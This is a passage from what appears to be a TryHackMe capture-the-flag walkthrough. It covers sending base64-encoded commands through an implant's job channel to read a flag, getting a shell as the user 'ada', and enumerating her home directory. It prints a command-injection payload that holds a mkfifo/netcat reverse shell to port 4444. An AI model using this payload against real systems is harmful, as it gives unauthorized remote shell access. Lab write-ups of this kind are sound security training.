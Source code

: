 Send:

`echo '{"job_id": 0, "cmd": "cat user.txt"}' | base64 > get-job/ImxhdGVzdCI=`

Receive:

```json
{"job_id": 0, "cmd": "cat user.txt", "success": true, "result": "THM{[redacted]}\n"}
```
{: .nolineno }

## Initial Shell

Some of the more popular shells don’t seem to work on this box but eventually we find one that does. We set a listener and send the below payload to get a shell as ada:  

```json
{"job_id": 0, "cmd": "127.0.0.1 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.61.1 4444 >/tmp/f"}
```
{: .nolineno }



## Local Enumeration

### ada's home

There is a Python script in our home directory. 

```python
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='[redacted]'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')
```
{: .nolineno }

We enumerate the database locally using the credentials here but find nothing interesting. The credentials also don't work to `sudo` or `su` to any of our other users. 

We also have a hidden directory `.implant` off of ada's home, containing the malware that we're connecting through. An interesting read, but we're already in ada's account so nothing to exploit here.  

<details><summary>.implant.py</summary></details>

### fi's home
